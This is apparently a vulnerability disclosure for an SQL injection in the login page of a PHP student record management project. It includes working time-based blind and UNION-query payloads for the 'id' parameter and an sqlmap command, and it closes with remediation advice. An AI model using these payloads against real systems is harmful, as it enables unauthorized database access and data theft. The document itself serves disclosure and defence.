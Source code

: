 # Students Record Management Project in PHP V 3.20/login.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Students Record Management Project in PHP
## Vendor Homepage

- https://phpgurukul.com/student-record-system-php/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Doracat

## Vulnerable File

- /login.php

## VERSION(S)

- V3.20

## Software Link

- https://github.com/Doramer/doramer.github.io/raw/refs/heads/main/Student-Record-Management-System-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was discovered in the 'login' section. The reason for this issue in the 'Students Record Management Project in PHP' is that attackers inject malicious code from the parameter 'id' and use it directly in SQL queries without proper cleaning or validation. This allows attackers to forge input values, manipulate SQL queries, and insert and execute unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of the 'Students Record Management Project in PHP', I discovered a critical SQL injection vulnerability in the 'login' process. This vulnerability arises from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can access databases, modify or delete data, and access sensitive information without authorization. Immediate remedial measures need to be taken to ensure system security and protect data integrity

# To exploit this vulnerability, no login or authorization is required

# Vulnerability details and POC

## Vulnerability lonameion:

- 'id' parameter

## Payload:

```makefile
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=ad' AND (SELECT 4658 FROM (SELECT(SLEEP(5)))IxsU) AND 'BCvu'='BCvu&password=123456&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=ad' UNION ALL SELECT 55,CONCAT(0x716b627671,0x424643495050664e794c4b6f6b7177676458486c584945706e4e7a6c597879646766556477697775,0x71716a7a71)-- -&password=123456&submit=login
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
python3 sqlmap.py -u "http://127.0.0.1/Student-Record-Management-System-PHP/login.php" --data="id=ad&password=123456&submit=login" -p id --batch --current-db
```

![image-20250520182236491](images/image-20250520182236491.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
